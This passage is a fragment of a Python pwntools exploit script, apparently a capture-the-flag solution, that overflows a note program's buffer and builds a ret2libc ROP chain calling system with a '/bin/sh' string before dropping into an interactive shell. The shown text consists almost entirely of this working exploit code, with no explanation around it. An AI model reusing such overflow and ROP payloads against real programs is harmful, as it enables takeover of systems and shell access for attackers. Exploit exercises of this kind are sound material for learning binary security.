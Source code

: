 ```python
    #
    payload = 'a' * 115 + '\xaf\x39'
    p.send(payload)

    #
    # get into make_note, then smash the stack
    #
    p.recvuntil("Choice: ")
    p.sendline("3")

    #
    # rop:
    # +==============+ high
    # |__binsh_str___|
    # |__exit_libc___|
    # |_system_libc _| low
    #

    rop = p32(system_libc)
    rop += p32(exit_libc)
    rop += p32(binsh_str)

    payload = 'a' * 52 + rop

    tmp = p.recvuntil("listing...: ", timeout=1)

    if len(tmp) == 0:
        continue

    #
    # trigger
    #
    p.sendline(payload)
    break

p.interactive()
```
